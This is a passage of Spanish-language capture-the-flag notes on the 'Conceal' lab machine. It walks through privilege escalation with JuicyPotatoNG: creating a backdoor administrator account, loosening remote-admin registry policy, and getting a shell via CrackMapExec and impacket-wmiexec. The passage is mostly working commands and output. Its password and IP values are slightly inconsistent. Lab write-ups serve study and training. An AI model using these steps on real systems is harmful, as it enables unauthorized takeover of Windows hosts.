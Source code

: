 -----------
#### Abusing SeImpersonatePrivilege [Privilege Escalation]
Si hacemos un `PS > whoami /priv` observamos que contamos con el privilegio **SeImpersonatePrivilege** tal y como lo vimos en la [[Most Important - Bart|maquina]] pasada. En esta ocasion, en vez de tirar de **NetCat** lo haremos cambiando algunos registros para poder conectarnos con **wmiexec**:
```
PS > .\JuicyPotatoNG.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user sexcott sexcott123$! /add" -c CLSID 
	JuicyPotatoNG
	by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 1337 
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[+] CreateProcessAsUser OK
[+] Exploit successful! 
```

Esto creara un nuevo usuario, podemos validar esto con **CrackMapExec**. Ahora, configuraremos los registros para poder lograr conectarnos con **Impacket-Wmiexec**:
```powershell
PS > .\JuicyPotatoNG.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators sexcott /add" -c CLSID
```

Y por ultimo:
```powershell
PS > .\JuicyPotatoNG.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -c CLSID
```

Ahora validamos con **CrackMapExec**, si coloca **Pwned!** es por que podemos conectarnos con **Wmiexec**:
```ruby
# sudo crackmapexec smb 10.10.10.116 -u sexcott -p 'sexcott123!$'
SMB         10.10.10.116    445    CONCEAL          [*] Windows 10.0 Build 15063 x64 (name:CONCEAL) (domain:Conceal) (signing:False) (SMBv1:False)
SMB         10.10.10.116    445    CONCEAL          [+] Conceal\sexcott:sexcott123!$ (Pwn3d!)
```

Para finalizar, ejecutamos una **CMD.exe** con **WmiExec**:
```
# impacket-wmiexec WORKGROUP/sexcott@10.10.10.10 cmd.exe
```





 

